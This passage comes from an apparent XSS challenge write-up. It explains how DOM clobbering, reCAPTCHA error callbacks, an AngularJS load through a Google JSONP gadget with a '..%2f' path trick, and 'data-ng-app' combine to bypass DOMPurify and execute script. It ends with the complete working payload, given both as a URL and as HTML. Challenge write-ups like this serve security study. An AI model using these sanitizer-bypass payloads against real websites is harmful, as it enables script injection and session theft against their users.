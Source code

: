 So, `any_function.curry.call()` will return `this` which is `window`, that's why we need prototype.js.

If you look at the source code again, you can find a similar pattern:

``` js
String.prototype.encode = function(type) {
  if (!type) return this
  if (type === 'uri') return encodeURIComponent(this)
  if (type === 'json') return JSON.stringify(this)
  if (type === 'base64') return atob(this)
}
```

That is to say, we can get `window` via `"any_string".encode.call()`.

### Piece all together

The full exploit including:

1. DOM clobbering `window.defaultOptions.allowDOM` to allow clobber document
2. DOM clobbering `document.scripts['undefined']`
3. Call `loadData` via reCAPTCHA
4. Call `reloadRecaptchaScript` via reCAPTCHA
5. Load AngularJS from cdn.js by classic google gadget and `..%2f` trick 
6. Use `data-ng-app` instead of `ng-app` to bypass DOMPurify
7. Use `"".encode.call()` to get window object

Here is the final payload for the intended solution:

[link](https://aszx87410.github.io/xss-challenge/notes/?name=&content=%3Cdiv%3E%0A%20%20%3Cform%3E%3C%2Fform%3E%0A%20%20%3Cform%20name%3D%22scripts%22%3E%0A%20%20%20%20%3Cimg%20name%3D%22undefined%22%20src%3D%22https%3A%2F%2Fwww.google.com%2Frecaptcha%2F..%2Fcomplete%2Fsearch%3Fclient%3Dchrome%26q%3Dhttps%3A%2F%2Fcdnjs.cloudflare.com%2Fajax%2Flibs%2Fdompurify%2F..%25252fangular.js%2F1.8.2%2Fangular.js%2523%26callback%3DloadScript%22%3E%0A%20%20%3C%2Fform%3E%0A%20%20%3Cform%20id%3DdefaultOptions%3E%0A%20%20%20%20%3Cimg%20name%3DallowDOM%3E%0A%20%20%3C%2Fform%3E%0A%20%20%20%20%3Cdiv%20class%3D%22g-recaptcha%22%20data-sitekey%3D%22AAA%22%20data-error-callback%3D%22reloadRecaptchaScript%22%20data-size%3D%22invisible%22%3E%3C%2Fdiv%3E%0A%20%20%3Cdiv%20class%3D%22g-recaptcha%22%20data-sitekey%3D%22B%22%20data-error-callback%3D%22loadData%22%20data-size%3D%22invisible%22%3E%3C%2Fdiv%3E%0A%20%20%0A%20%20%3Cdiv%20data-ng-app%20data-ng-csp%3E%0A%20%20%20%20%7B%7B%20%22abc%22.encode.call().alert(%22abc%22.encode.call().document.domain)%20%7D%7D%0A%20%20%3C%2Fdiv%3E%0A%3C%2Fdiv%3E)

``` html
<div>
  <form></form>
  <form name="scripts">
    <img name="undefined" src="https://www.google.com/recaptcha/../complete/search?client=chrome&q=https://cdnjs.cloudflare.com/ajax/libs/dompurify/..%252fangular.js/1.8.2/angular.js%23&callback=loadScript">
  </form>
  <form id=defaultOptions>
    <img name=allowDOM>
  </form>
    <div class="g-recaptcha" data-sitekey="AAA" data-error-callback="reloadRecaptchaScript" data-size="invisible"></div>
  <div class="g-recaptcha" data-sitekey="B" data-error-callback="loadData" data-size="invisible"></div>
  
  <div data-ng-app data-ng-csp>
    [["abc".encode.call().alert("abc".encode.call().document.domain)]]
  </div>
</div>
```
